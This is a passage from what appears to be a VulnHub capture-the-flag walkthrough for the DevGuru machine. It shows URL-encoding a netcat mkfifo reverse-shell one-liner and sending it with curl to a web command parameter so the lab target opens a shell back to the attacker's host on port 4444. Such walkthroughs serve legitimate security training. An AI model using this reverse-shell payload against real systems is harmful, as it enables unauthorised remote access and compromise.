 	![](images/Pasted%20image%2020220123024335.png)
13. Test RCE
	![](images/Pasted%20image%2020220123024639.png)
14. Encode payload
	```
	┌──(root💀kali)-[~/vulnHub/DevGuru/192.168.236.6/exploit]
	└─# hURL --URL "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.236.4 4444>/tmp/f"

	Original    :: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.236.4 4444>/tmp/f
	URL ENcoded :: rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.236.4%204444%3E%2Ftmp%2Ff
	```
15. Execute reverse shell 
	```
	┌──(root💀kali)-[~/tools/GitTools/Extractor]
	└─# curl http://192.168.236.6/?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+192.168.236.4+4444%3E%2Ftmp%2Ff
	```